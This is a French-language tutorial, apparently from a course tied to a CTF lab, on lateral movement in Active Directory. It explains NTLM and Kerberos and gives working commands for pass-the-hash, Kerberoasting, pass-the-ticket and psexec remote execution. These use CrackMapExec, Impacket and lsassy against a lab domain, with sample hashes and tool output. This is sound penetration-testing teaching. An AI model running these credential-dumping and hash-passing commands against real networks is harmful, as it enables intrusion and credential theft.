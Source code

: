 ## Propagez-vous latéralement avec le protocole NTLM
Vous avez vos premiers identifiants sur le réseau, ou un premier accès sur un poste ou serveur du domaine. Il vous faut alors continuer votre plan d’attaque, et compromettre d’autres utilisateurs ou machines pour tenter de récupérer de nouveaux accès.

## Exploitez le protocole NTLM
Le protocole NTLM est l’un des deux protocoles d’authentification utilisés dans les environnements Microsoft. Il permet à un utilisateur de prouver qui il est auprès d’un serveur.
Pour finaliser l’authentification, il ne reste plus au serveur qu’à vérifier la validité de la réponse envoyée par le client. Pour ce faire, le serveur a une base de données des utilisateurs locaux appelée SAM (Security Accounts Manager). Il y a la liste des noms d’utilisateurs, et le hash de leur mot de passe, appelé hash NT. Cela permet d’éviter de stocker les mots de passe en clair sur la machine. Quand le serveur reçoit la réponse du client qui tente de s’authentifier, il reçoit le challenge chiffré avec ce hash. Le serveur va procéder à la même opération en cherchant le hash de l’utilisateur dans sa table, et il va chiffrer le challenge qu’il a envoyé avec ce hash.

## Pass-The-Hash
Si vous avez bien suivi, dans tous les cas l’utilisateur n’a utilisé que le hash NT de son mot de passe pour s’authentifier, jamais son mot de passe en clair.
 Avec le protocole NTLM, si vous volez le mot de passe en clair, ou si vous volez le hash NT du mot de passe, vous aurez toutes les billes en main pour vous authentifier. Finalement, on peut même dire qu’avoir le hash NT revient à avoir le mot de passe en clair, dans la majorité des cas.
 Eh oui, si vous avez compromis un seul de ces postes, et que vous avez trouvé le hash du compte administrateur, il y a de grandes chances pour que ce même hash soit valide sur tous les autres postes ! C’est ce qu’on appelle le pass-the-hash.
 - Pour extraire les hash NT des utilisateurs locaux sur des machines, le paramètre  `--sam ` doit être fourni à CrackMapExec, ainsi que les identifiants d’un compte administrateur.
 `$ cme smb 10.10.10.0/24 -u pixis -p P4ssw0rd -d medic.ex --sam`
 - Si un signe [+] vert apparait dans la sortie de CrackMapExec pour une machine, c’est que le compte a le droit de s’authentifier sur cette machine. Si vous avez également le message (Pwn3d!), alors vous êtes administrateur de la machine.
 - Pour s’authentifier avec le hash NT d’un utilisateur, vous pouvez utiliser le paramètre  -H  de CrackMapExec. Il faut également ajouter le paramètre  --local-auth  si vous vous authentifiez avec un compte local, et non un compte du domaine.
 ```
cme smb 10.10.10.0/24 -u Administrateur -H aad3b435b51404eeaad3b435b51404ee:01a27c88a6c1bd0ab0944599129c58a6 --local-auth
 ```
 Vous pouvez également utiliser le paramètre  -hashes  pour tous les outils propres à la suite Impacket. Par exemple l’outil psexec.py.
 ```
psexec.py Administrateur@dc01.medic.ex -hashes aad3b435b51404eeaad3b435b51404ee:01a27c88a6c1bd0ab0944599129c58a6

 ```
 - Attention, le compte administrateur local peut être Administrateur ou Administrator, en fonction de la langue utilisée sur la machine Windows. Pensez bien à essayer les deux !
 ## En résumé

Une des options pour effectuer du mouvement latéral au sein d’un Active Directory, est de :
- Compromettre des machines avec la technique du pass-the-hash. 
-  Se faire passer pour une victime avec le relais NTLM.
-   Forcer une machine distante à s’authentifier auprès de votre machine avec la coercition d’authentification.

## Exploitez le protocole Kerberos
Le protocole Kerberos est le deuxième protocole d’authentification clé dans un Active Directory. C’est d’ailleurs le protocole utilisé par défaut quand c’est possible. Il existe plusieurs manières d’exploiter ce protocole pour du mouvement latéral. Pour bien les comprendre, nous allons faire un bref rappel du fonctionnement de ce protocole.
### Kerberos
Lorsqu’un utilisateur veut utiliser un service, il doit pouvoir prouver auprès du service qui il est. Pour cela, au préalable, l’utilisateur va demander auprès du contrôleur de domaine un TGT, ou Ticket-Granting-Ticket. C’est l’équivalent d’un passeport. Ce document contient des informations sur l’utilisateur, notamment son nom et les groupes auxquels il appartient. D’ailleurs, comme un passeport, il doit être infalsifiable. L’utilisateur ne doit pas pouvoir changer son nom à son bon vouloir. Donc ce TGT est protégé par une clé que seul le contrôleur de domaine connaît.
Pour pouvoir récupérer ce ticket, l’utilisateur doit se préauthentifier auprès du contrôleur de domaine en prouvant qu’il connaît son mot de passe. Si cette préauthentification est validée par le contrôleur de domaine, alors celui-ci lui renvoie son TGT.

## Kerberoasting
Une fois le TGT en main, un utilisateur peut faire une demande de ticket de service pour n’importe quel service du domaine. Or, un ticket de service est protégé par le mot de passe du compte de service demandé. Donc en théorie, si vous demandez un ticket de service, vous pouvez essayer vous-même de trouver la clé qui déchiffre le ticket. Il suffit d’en essayer beaucoup, et peut-être que vous tomberez sur la bonne.
En revanche, il y a aussi des comptes utilisateurs qui exécutent parfois des services. Et c’est là que repose l’attaque Kerberoasting. L’idée est de demander des tickets de service pour tous les services qui sont portés par des utilisateurs. Pour chaque ticket, vous tenterez de trouver le mot de passe qui le protège. Si vous y parvenez, vous aurez trouvé le mot de passe du compte en question !
- Un outil de la suite Impacket permet d’automatiser ce processus. Il s’appelle `GetUserSPNs.py.`
`GetUserSPNs.py -request medic.ex/pixis:P4ssw0rd -outputfile hashes.kerberoast`
Une fois les tickets récupérés, l’outil les mettra sous une forme compréhensible pour des outils comme hashcat, pour tenter de retrouver le mot de passe associé.
- Il existe des outils qui indiqueront que le compte `krbtgt` est Kerberoastable. En effet, ce compte est assimilé à un compte utilisateur, et possède un SPN (kadmin/changepw). Cependant, d’une part ce compte est désactivé, et d’autre part il existe sur toutes les versions d’Active Directory et possède un mot de passe long et complexe. Il n’est pas utile de perdre du temps à essayer de casser son mot de passe.
### Pass-the-Ticket
Vous vous souvenez de la technique du pass-the-hash que vous avez découverte avec le protocole NTLM ? Ici, il est question de tickets, donc ce que vous pouvez passer, ce sont des tickets ! Si vous compromettez une machine, ou un compte administrateur sur un poste, vous pouvez tenter de retrouver des tickets Kerberos en mémoire pour les réutiliser. En effet, si vous trouvez le ticket TGT d’un autre compte, vous pourrez potentiellement le réutiliser pour vous faire passer pour ce compte, sous réserve qu’il ne soit pas expiré. C’est ce qu’on appelle la technique du pass-the-ticket.
- L’outil `lsassy` permet de récupérer à distance des informations d’authentification sur un poste compromis, notamment les TGT. 
```
lsassy -u pixis -p P4ssw0rd -d medic.ex 10.10.10.2
[...]
MEDIC.EX\Administrateur  [TGT] Domain: MEDIC.EX - End time: 2023-11-09 12:46 (TGT_MEDIC.EX_Administrateur_krbtgt_MEDIC.EX_bcb82275.kirbi)
[...]
24 Kerberos tickets written to /home/pixis/.config/lsassy/tickets
```
Cela signifie que sur le poste distant, le TGT du compte Administrateur est présent, et qu’il est valide jusqu’à une certaine date. Par défaut, ce ticket est enregistré au format `.kirbi`, mais vous pouvez le convertir en `.ccache `pour l’utiliser avec la suite Impacket.
```
ticketConverter.py 
~/.config/lsassy/tickets/TGT_MEDIC.EX_Administrateur_krbtgt_MEDIC.EX_bcb82275.kirbi 
/tmp/Administrateur.ccache

```
Pour l’utiliser, il faut l’exporter dans la variable d’environnement KRB5CCNAME puis vous pourrez utiliser tous les outils de la suite impacket avec le paramètre -k pour utiliser ce ticket.
```
export KRB5CCNAME=/tmp/Administrateur.ccache
smbclient.py -k DC01.medic.ex

```
- Pour que cette technique fonctionne, il faut être précis sur ses lignes de commandes.
Dans l’authentification utilisant Kerberos, les vrais noms de machine doivent être utilisés, notamment dans la dernière commande (ici  smbclient.py  ). Si vous testez cette commande dans l’environnement root-me depuis votre machine d’attaque, il faudra au préalable trouver l’IP publique de la machine de CTF, et enregistrer dans votre fichier hosts la ligne suivante :
`XXX.XXX.XXX.XXX DC01 DC01.medic.ex medic.ex`

## Exploitez les autres protocoles
Dans un environnement Active Directory, de nombreux autres protocoles cohabitent. Certains d’entre eux permettent de prendre la main à distance sur une machine, comme SMB, RDP, SSH, WinRM, VNC, WMI et bien d’autres.
Si vous avez des identifiants, vous pouvez les utiliser pour vous propager latéralement. Voici quelques exemples d’outils qui peuvent être utilisés pour ce déplacement latéral.
- Avec SMB, vous avez la possibilité de créer à distance un service et de l’exécuter. Un service, ce n’est rien d’autre qu’une application qui fonctionne en arrière-plan. C’est ce que fait l’outil psexec lorsque vous l’utilisez pour exécuter des commandes à distance. Cet outil a été porté dans la suite `Impacket` que vous connaissez maintenant. Il s’appelle `psexec.py`.
`psexec.py medic.ex/pixis:P4ssw0rd@dc01.medic.ex`

## En résumé

En plus de l'exploitation du protocole NTLM vu au chapitre précédent, pour effectuer du mouvement latéral au sein d’un Active Directory, vous avez plusieurs options :

- Utiliser le Kerberoasting pour découvrir de nouveaux identifiants.
- Découvrir des informations sensibles dans les partages réseau.